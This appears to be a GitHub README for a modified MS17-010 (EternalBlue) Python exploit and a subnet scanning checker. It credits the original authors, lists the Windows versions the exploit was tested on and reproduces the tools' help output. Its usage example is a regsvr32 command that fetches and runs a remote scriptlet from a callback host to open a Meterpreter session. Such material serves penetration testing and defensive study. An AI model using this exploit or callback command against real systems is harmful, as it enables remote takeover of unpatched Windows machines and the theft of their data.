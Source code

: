 # MS17-010: Python
All credit goes to Worawit: 

[Worawit Wang: GitHub](https://github.com/worawit/MS17-010/)

[Worawit Wang: Twitter](https://twitter.com/sleepya_/)

Worawit Wang released a collection of Python exploits for MS17-010. These tools worked far more reliably than the Metasploit modules but didn't have much of a payload besides writing a pwned.txt to the C:/. However, Worawit Wang did add functionality for creating a service. 

Korey McKinley wrote an [article](https://lmgsecurity.com/manually-exploiting-ms17-010/) utilising that function to create a service which used regsvr32 to call back to Meterpreter and create a full Meterpreter connection. I'd never seen that path to exploitation, so I thought I'd modify zzz_exploit.py with Korey's logic and make the script more dynamic and user friendly. 

However, the module Korey used in that blog article was not available in my version of Metasploit. It is now called **web_delivery**. 

The zzz_exploit.py found in this repo is the same exploit logic. But it has been made more dynamic. It is now possible to pass user and password with the -u and -p, respectively. A command to write to a service is passed with the -c option and the target and pipe are -t and -p. 

Logger.py is just a script I've been reusing with all my code to prettify output. If deleted, zzz will break :)

Here is the full help page output:
```
➜  MS17-010 git:(master) ✗ ./zzz_exploit.py --help                                                                                        
usage: zzz_exploit.py [-h] [-u] [-p] -t  [-c] [-P] [--version]

Tested versions:
1	Windows 2016 x64
2	Windows 10 Pro Vuild 10240 x64
3	Windows 2012 R2 x64
4	Windows 8.1 x64
5	Windows 2008 R2 SP1 x64
6	Windows 7 SP1 x64
7	Windows 2008 SP1 x64
8	Windows 2003 R2 SP2 x64
9	Windows XP SP2 x64
10	Windows 8.1 x86
11	Windows 7 SP1 x86
12	Windows 2008 SP1 x86
13	Windows 2003 SP2 x86
14	Windows XP SP3 x86
15	Windows 2000 SP4 x86

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target for exploitation
  -c , --command    Command to add to service
  -P , --pipe       Pipe to connect to
  --version         show program's version number and exit
Example: python zzz_exploit -t 192.168.0.1 -c 'regsvr32 /s /n /u /i:http://192.168.0.1:9000/1EsrjpXH2pWdgd.sct scrobj.dll'
```
I wrote an article using Korey's payload and the new changes to the script, please see it [here](https://mez0.cc/posts/weaponised-worawit.html)


I made similar changes to checker.py, but the only additional logic I added was to be able to effectively run this script across a subnet. I imported the **netaddr** module and wrote a short for loop to run across the subnet.

Here is the help page for checker.py:

```
➜  MS17-010_WORAWIT git:(master) ✗ python checker.py --help         
usage: checker.py [-h] [-u] [-p] -t  [--version]

MS17-010 Checker script

optional arguments:
  -h, --help        show this help message and exit
  -u , --user       Username to authenticate with
  -p , --password   Password for specified user
  -t , --target     Target to check for MS17-010
  --version         show program's version number and exit

Example: python checker.py -t 192.168.0.1
```

Any further ideas, changes or fixes; please let me know!
